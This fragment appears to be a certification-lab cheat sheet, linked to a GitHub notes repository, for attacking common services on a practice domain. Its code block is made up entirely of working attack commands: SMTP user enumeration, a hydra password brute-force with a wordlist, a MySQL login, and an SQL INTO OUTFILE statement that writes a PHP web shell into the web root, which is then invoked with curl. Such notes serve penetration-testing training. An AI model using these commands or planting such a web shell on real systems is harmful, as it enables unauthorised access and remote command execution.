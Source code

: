 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md


#### Attacking Common Services - Easy:
```
smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
mysql -h $ip -u <user> -p <password>
curl http://$ip/cmd.php?cmd=whoami
SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php'; 
```
